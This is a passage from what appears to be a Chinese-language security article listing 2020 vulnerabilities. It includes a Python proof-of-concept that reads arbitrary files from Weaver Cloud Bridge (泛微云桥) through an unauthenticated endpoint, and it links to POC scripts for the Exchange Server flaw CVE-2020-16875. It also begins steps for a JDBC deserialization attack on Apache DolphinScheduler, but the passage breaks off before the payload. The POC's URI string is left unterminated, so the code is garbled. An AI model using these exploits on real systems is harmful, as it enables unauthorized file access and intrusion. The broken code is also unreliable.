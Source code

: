 8. 泛微云桥任意文件读取

检测 POC

def poc(u):

    print("[*] Checking %s"%(u))

    uri = "/wxjsapi/saveYZJFile?file

    url = u + uri

    try:

        res = requests.get(url,verify=False)

    except:

        print("[-] %s not vulnerabile!"%(u))

        return 

    try:

        data = json.loads(res.content)

        print("[*] %s is vulnerabile!" %(u))

        res = requests.get(u+"/file/fileNoLogin/%s"%(data['id']))

        print(res.text)

    except:

        print("[-] %s not vulnerabile!"%(u))

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iafKdib0qUcl0RzsICOlJ7tOnxbOuFJzGND63Omru6kicVk21mdqfRMIrQ/640?wx_fmt=png)

9. 深信服 SSL VPN 远程代码执行漏洞（暂无）

10.Apache DolphinScheduler 远程代码执行漏洞

11.Exchange Server 远程代码执行漏洞

CVE-2020-16875: Exchange Server 远程代码执行漏洞（202009 月度漏洞）

ps 版 POC：https://srcincite.io/pocs/cve-2020-16875.ps1.txt

py 版 POC：https://srcincite.io/pocs/cve-2020-16875.py.txt

12.Apache DolphinScheduler 权限覆盖漏洞 [CVE-2020-13922]

它是一个分布式去中心化，易扩展的可视化 DAG(有向无环图) 工作流任务调度系统。利用漏洞: 需要登录权限, [09/12 态势感知] 提供一组默认密码。

该漏洞存在于数据源中心未限制添加的 jdbc 连接参数, 从而实现 JDBC 客户端反序列化。1、登录到面板 -> 数据源中心。

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaENttJYmlYXMhMqcOsiaia7vgic4RhX0G2GE62UV5icsn3gShSvMDG0BxWA/640?wx_fmt=png)

2、jdbc 连接参数就是主角, 这里没有限制任意类型的连接串参数。

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaENttJYmlYXMhMqcOsiaia7vgic4RhX0G2GE62UV5icsn3gShSvMDG0BxWA/640?wx_fmt=png)

3、将以下数据添加到 jdbc 连接参数中, 就可以直接触发。
